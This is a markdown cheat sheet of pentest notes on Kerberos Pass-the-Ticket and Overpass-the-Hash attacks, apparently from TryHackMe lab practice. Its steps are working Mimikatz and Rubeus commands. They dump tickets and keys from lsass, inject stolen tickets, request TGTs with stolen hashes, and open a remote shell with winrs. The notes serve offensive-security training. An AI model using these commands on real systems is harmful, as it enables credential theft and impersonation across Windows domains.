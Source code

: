 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz #rubeus #winrs; 
# Pass The Ticket
- Pass the ticket involves stealing the ticket and the session key and using it impersonate the user to get access to resources or services.
- TGT & ST can be used, but TGTs are preferred because we get access to any service.
### Mimikatz
```powershell
# Tickets can be extracted from lsass memory using the following command
sekurlsa::tickets /export
# On linux, it the keys are located in files. Location of these files can be found in the kerberos configuration files: `/etc/krb5.conf`.

# Inject ticket to current session:
kerberos::ptt <ticket_id>
# This purges the current tickets from memory and injects the specified tickets
```
### Rubeus
```bash
.\Rubeus.exe dump # Dumps the tickets 
# Dumps all ticket when run with elevated privilege
.\Rubeus.exe /nowrap # dumps ticket with no new lines
.\Rubeus.exe /service:krbtgt # specify service

# Using the ticket
.\Rubeus.exe ptt /ticket:<base64ticket> 
```
- Verify the ticket with `klist`:
```powershell
klist
```
- Get a shell
```powershell
# Credentails get automatically injected. similar to runas's /netonly
winrs.exe -r:<server/IP> cmd.exe
```
# Overpass The Hash/Pass The Key
- When a user requests a TGT, the TGT encrypts the timestamp and other details with a key derived from their password. 
- The algorithm used call be the following depending on the kerberos configuration :
	- DES (Deprecated)
	- RC4
	- AES128
	- AES256
- We can ask the Key Distrubution Center for TGT by passing this key through mimikatz
### Mimikatz
- Mimikatz will open a PowerShell session with a logon type 9 (whis is the same as running `runas` with `netonly` option).
- Requires elevation.
```powershell
# for dumping keys from lsass
sekurlsa::ekeys

# For RC4 Hash
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:<key> /run:"<command>"

# For AES128
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:<key> /run:"<command>"

# For AES256
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:<key> /run:"<command>"
```
### Rubeus
```powershell
# pass the key: rc4
# Doesn't require elevation
.\Rubeus.exe asktgt /user:administrator /rc4:<hash/key> /ptt

# This requires elevation
.\Rubeus.exe asktgt /user:administrator /aes256:<key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH). Using RC4 will be marked as "Encryption Donwgrade" and MDI will flag an alert.